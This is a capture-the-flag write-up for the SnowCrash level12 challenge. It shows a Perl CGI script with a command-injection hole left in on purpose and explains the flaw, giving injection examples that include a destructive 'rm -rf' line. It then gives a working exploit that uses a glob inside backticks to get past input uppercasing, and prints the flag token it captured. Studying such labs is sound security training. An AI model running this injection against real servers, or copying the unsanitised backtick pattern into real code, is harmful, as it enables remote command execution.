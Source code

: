 # Exploit a substitution command in Perl

#!/usr/bin/env perl
# This script starts a CGI (Common Gateway Interface) program to handle web requests on localhost:4646

use CGI qw{param}; # Import the 'param' function from the CGI module to handle query parameters
print "Content-type: text/html\n\n"; # Send the HTTP header to indicate the content type of the response

# Define a subroutine 't' that checks if a specific pattern exists in a file
sub t {
  # $_[0] and $_[1] are the first and second arguments passed to the subroutine
  $nn = $_[1]; # The second argument, expected to be a string pattern to search for
  $xx = $_[0]; # The first argument, expected to be a string to transform and use in the search
  
  # Transform all lowercase letters in $xx to uppercase
  $xx =~ tr/a-z/A-Z/;
  
  # Remove all characters starting from the first whitespace character in $xx
  $xx =~ s/\s.*//;
  
  # Execute the egrep command to search for lines in /tmp/xd that start with $xx, capturing stderr
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  
  # Iterate through each line of the output
  foreach $line (@output) {
      # Split the line by the first colon ':' into $f and $s variables
      ($f, $s) = split(/:/, $line);
      
      # Check if $s (the part after the first colon) contains the pattern $nn
      if($s =~ $nn) {
          # If the pattern is found, return 1 (true)
          return 1;
      }
  }
  
  # If the pattern wasn't found in any line, return 0 (false)
  return 0;
}

# Define a subroutine 'n' that prints a response based on the argument
sub n {
  # Check if the argument passed to 'n' is 1 (true)
  if($_[0] == 1) {
      # If true, print two dots
      print("..");
  } else {
      # Otherwise, print one dot
      print(".");
  }    
}

# Execute the 'n' subroutine with the result of the 't' subroutine, which is called with 'x' and 'y' query parameters
n(t(param("x"), param("y")));



The security vulnerability in this Perl script lies in its use of unvalidated user input within a system command, specifically within the egrep command execution. This vulnerability is a classic example of command injection.


This line
@output = `egrep "^$xx" /tmp/xd 2>&1`;

User Input Not Sanitized: The variable $xx is modified to uppercase and truncated at the first space, but these transformations do not sanitize it against malicious payloads that include shell metacharacters. An attacker could craft input that closes the egrep command and starts a new command, which the server would then execute.

Exploitation Example: If an attacker submits the parameter x with a value like ; ls #, even after uppercase conversion and removing everything after the space, it would result in executing egrep "; LS #" /tmp/xd, which can be manipulated further to execute unintended commands. For example, an attacker could craft input like ; rm -rf /important_directory # to attempt destructive actions.

Lets exploit this

we can't exploit by simply call `getflag > /tmp/hack`,

because we have

 # Transform all lowercase letters in $xx to uppercase
  $xx =~ tr/a-z/A-Z/;
  
  # Remove all characters starting from the first whitespace character in $xx
  $xx =~ s/\s.*//;

so we create an UPPER CASE file to use shell substitution*

touch /tmp/HACK

chmod +x /tmp/HACK

level12@SnowCrash:~$ cat /tmp/HACK
#!/bin/sh
getflag | wall


..level12@SnowCrash:~$ curl localhost:4646?x='`/*/HACK`'
                                                                               
Broadcast Message from flag12@Snow                                             
        (somewhere) at 23:56 ...                                               
                                                                               
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr                      
                                                           
